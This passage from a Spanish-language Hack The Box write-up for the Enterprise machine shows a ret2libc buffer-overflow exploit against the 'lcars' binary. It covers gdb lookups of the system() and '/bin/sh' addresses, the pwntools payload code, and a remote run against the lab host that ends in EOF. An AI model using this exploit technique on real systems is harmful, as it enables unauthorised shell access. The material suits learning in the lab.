 Jmmm, dando unas vueltas cai en cuenta que el programa está tomando **nuestras** direcciones en memoria, o sea con las que interactúa el programa en **nuestro sistema**, tiene sentido que no sirva, ya que esas **direcciones** probablemente no sean las mismas que usa el programa en la máquina víctima... Juguemos con ella (ya que tiene **gdb**) para extraer las direcciones en memoria y validar si ese es el error:

```bash
www-data@enterprise:/bin$ gdb ./lcars -q
Reading symbols from ./lcars...(no debugging symbols found)...done.
(gdb)
```

Para obtener todos los valores necesitamos que el programa se ejecute y tenga un **breakpoint** (este para obtener "/bin/sh"), asi que hacemos todo el recorrido (código > 4 > cadena en el apartado *seguridad*) y ahí si jugamos:

```bash
...
(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e4c060 <system>
(gdb) find 0xf7e4c060,+87654321,"/bin/sh"
warning: Unable to access 16000 bytes of target memory at 0xf7f55a67, halting search.
Pattern not found.
(gdb) b main
Breakpoint 1 at 0x56555ca0
(gdb) r
Starting program: /bin/lcars 

Breakpoint 1, 0x56555ca0 in main ()
(gdb) find 0xf7e4c060,+87654321,"/bin/sh"
0xf7f70a0f
warning: Unable to access 16000 bytes of target memory at 0xf7fca797, halting search.
1 pattern found.
(gdb) 
```

Bien, ya tenemos los 2 valores:

* `system()`: `0xf7e4c060`.
* `/bin/sh`: `0xf7f70a0f`.

Agreguémoslos al script y ejecutemos :O

```py
...
payload = ("A"*212).encode() # Pasamos la cadena a bytes para poder concatenarla
payload += p32(0xf7e4c060, endian='little') # System
payload += ("B"*4).encode() # + basurita
payload += p32(0xf7f70a0f, endian='little') # /bin/sh
...
```

```bash
❭ python3 exploit.py ./lcars REMOTE
[*] '/htb/enterprise/scripts/lcars'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
[+] Opening connection to 10.10.10.61 on port 32812: Done
[*] Switching to interactive mode

[*] Got EOF while reading in interactive
$ id
$ 
[*] Closed connection to 10.10.10.61 port 32812
[*] Got EOF while sending in interactive
```
